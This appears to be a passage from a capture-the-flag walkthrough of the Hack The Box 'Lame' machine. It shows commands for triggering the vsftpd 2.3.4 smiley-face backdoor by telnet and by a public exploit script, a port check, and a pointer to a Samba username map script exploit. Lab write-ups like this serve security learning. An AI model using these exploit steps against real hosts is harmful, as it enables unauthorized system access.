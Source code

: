 Base on `searchsploit`, we know the vsftpd 2.3.4 might contain a backdoor which has been created by an intruder. The backdoor payload is initiated in response to a :) character combination in the username which represents a smiley face. The code sets up a bind shell listener on port 6200.

Trigger the backdoor and execute command `whoami`

``` bash
┌──(Hades㉿10.10.14.3)-[2.4:20.4]~/walkthrough/hackthebox
└─$ telnet 10.10.10.3 21
<snip>
220 (vsFTPd 2.3.4)
USER hades:)
331 Please specify the password.
PASS leecybersec
```

Using script [vsftpd-2.3.4-exploit.py](https://github.com/ahervias77/vsftpd-2.3.4-exploit)

```
python3 vsftpd-2.3.4-exploit.py 10.10.10.3 21 whoami
```

Check open port: 6200

```
nmap -p 6200 10.10.10.3 -Pn
```

Port 6200 is not open, may the developers removed the backdoor.

![](images/3.png)

### CVE-2007-2447

Follow step exploit for <a href='https://wiki.jacobshodd.com/writeups/hack-the-box/lame#exploitation' target="blank">Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution</a>.
